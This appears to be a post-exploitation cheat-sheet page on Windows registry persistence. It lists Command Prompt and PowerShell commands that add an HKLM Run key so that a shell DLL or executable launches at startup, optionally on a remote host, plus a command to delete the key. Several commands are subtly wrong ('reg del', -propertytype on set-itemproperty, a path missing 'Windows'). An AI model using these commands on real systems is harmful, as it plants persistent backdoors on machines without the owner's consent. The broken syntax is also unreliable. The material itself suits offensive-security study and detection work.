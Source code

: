 # Manual

## 01 - Registry Backdoors

### 1.1 - HKLM

#### 1.1.1 - Add Registry Key Syntax

- Command Prompt

```
C\> reg import file.reg

C:\> reg add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v <value> /t reg_sz /d "rundll32.exe C:\path\to\shell.dll,ExecDLL" /f
```

- Powershell

```powershell
PS C:\> set-itemproperty -path "hklm:\software\microsoft\windows\currentversion\run" -name "<value>" -propertytype string -value "C:\path\to\shell.exe" -force
```

#### 1.1.2 - Delete Registry Key Syntax

```
C:\> reg del [\\<IP>\]hklm\\software\\microsoft\\currentversion\\run /v <value> /f
```

---
## References

- [[Windows Post Exploitation Persistence References]]